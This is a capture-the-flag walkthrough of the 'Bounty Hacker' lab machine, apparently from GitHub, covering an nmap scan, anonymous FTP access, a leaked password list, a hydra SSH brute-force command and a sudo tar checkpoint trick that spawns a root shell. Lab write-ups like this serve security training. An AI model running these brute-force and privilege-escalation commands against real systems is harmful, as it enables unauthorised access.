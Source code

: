 # Bounty Hacker

## Enumeration

> nmap -sCV -O -v <IP>
```
# Nmap 7.80 scan initiated Wed Nov 11 15:55:02 2020 as: nmap -sCV -O -v -oN nmap 10.10.225.190
Nmap scan report for 10.10.225.190
Host is up (0.56s latency).
Not shown: 967 filtered ports
PORT      STATE  SERVICE         VERSION
20/tcp    closed ftp-data
21/tcp    open   ftp             vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.4.11.0
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp    open   http            Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
990/tcp   closed ftps
40193/tcp closed unknown
40911/tcp closed unknown
41511/tcp closed unknown
42510/tcp closed caerpc
44176/tcp closed unknown
44442/tcp closed coldfusion-auth
44443/tcp closed coldfusion-auth
44501/tcp closed unknown
45100/tcp closed unknown
48080/tcp closed unknown
49152/tcp closed unknown
49153/tcp closed unknown
49154/tcp closed unknown
49155/tcp closed unknown
49156/tcp closed unknown
49157/tcp closed unknown
49158/tcp closed unknown
49159/tcp closed unknown
49160/tcp closed unknown
49161/tcp closed unknown
49163/tcp closed unknown
49165/tcp closed unknown
49167/tcp closed unknown
49175/tcp closed unknown
49176/tcp closed unknown
49400/tcp closed compaqdiag
49999/tcp closed unknown
50000/tcp closed ibm-db2
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (90%), Linux 3.7 (90%), Ubiquiti AirOS 5.5.9 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Infomir MAG-250 set-top box (89%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 40.271 days (since Fri Oct  2 10:27:02 2020)
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 11 15:56:51 2020 -- 1 IP address (1 host up) scanned in 109.03 seconds
```


## Exploit / User

port 21:

ftp 10.10.225.190

trying to login with default credentials:

> user : anonymous
> password :

it works

![image](https://user-images.githubusercontent.com/53917092/99078566-5a4cae00-259d-11eb-9ec9-84bbd5ddb14b.png)

so we download the files locks.txt and task.txt

![image](https://user-images.githubusercontent.com/53917092/99078658-85370200-259d-11eb-83a5-1968bfe1ef81.png)

![image](https://user-images.githubusercontent.com/53917092/99078717-997aff00-259d-11eb-97cf-92437bf3b326.png)

locks:
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
(this looks like a password list file)


task:
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
(now we know the system have a user named "lin")

using hydra to bruteforce ssh with user "lin" and the passwords from locks.txt

> hydra -l lin -P locks.txt ssh://10.10.225.190 -F

and we got the password

using this credentials we can login in ssh

loggin into ssh we have the user.txt

## Root

> sudo -l

```
User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

checking GTFobins :

![image](https://user-images.githubusercontent.com/53917092/99079348-97fe0680-259e-11eb-8d8e-ef1d4a8ddadf.png)

we got the command:

> sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

and we are root :)

